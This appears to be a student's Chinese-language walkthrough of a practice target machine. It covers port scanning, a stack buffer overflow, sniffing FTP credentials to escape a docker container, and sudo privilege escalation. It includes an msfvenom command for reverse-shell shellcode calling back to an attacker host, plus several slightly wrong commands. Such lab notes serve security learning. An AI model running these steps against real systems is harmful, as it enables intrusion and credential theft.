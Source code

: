 # 第12周

**注:本周靶机较难,复现过程较为复杂,故在此只体现思路与指令**

## 	1.端口&服务扫描:

`sudo nmap -p- ip`
		`sudo nmap -p21,22,80,2222,9898 -sV -sC ip`

	1.21ftp: 发现ftp-anon:获得ELF可执行程序server
	2.22ssh
	3.80web服务: 扫描目录后无有价值的信息
	4.2222:ssh:注意,两个ssh服务,且版本不一.怀疑docker
	5.9898:自定义程序,与server一致

## 	2.模糊测试&缓冲区溢出

```sh
0.关闭ALSR,便于进行本地漏洞调试
	echo 0 /proc/sys/kernel/randomize_va_space

1.生成较长的payload,发现缓冲区溢出
	python3 -c "print('A'*200)"

2.使用edb-debugger进行图形化调试

3.确定eip的偏移量;同时发现esp可控
	msf-pattern_create -l 200
	msf-pattern_offset -l 200 -p [pattern]

4.利用edb插件搜索`jmp esp`的地址

5.使用python编写漏洞利用脚本,使用msfvenom生成shellcode
	msfvenom -e linux/x86/shell_reverse_tcp LHOST=ip LPORT=4444 -b '\x00' -f py

6.技巧:在shellcode前加上32个nop('\x90')

7.对靶机发起攻击
	注意:shellcode: 要去除坏字符\x00;在python中可以直接以字符串形式输出shellcode
```

## 	3.docker逃逸

​	0.检查ip、根目录后发现docker环境
​			1.发现.credits.txt文件,使用其中的密码ssh登陆
​			2.使用`tcpdump -i eth0 port 21`抓取ftp流量,获取其中的明文用户与密码
​			3.使用捕获的用户密码登陆真实靶机

## 	4.提权

​	0.普通的提权向量无用
​			1.以内核版本为线索,发现了sudo本地提权漏洞
​			2.搜取网上exp,下载并执行,发现出错
​			3.对源码进行分析后确定范围
​			4.发现sudo的路径与exp不符合,修改exp
​			`which sudo`
​			5.利用exp成功提权

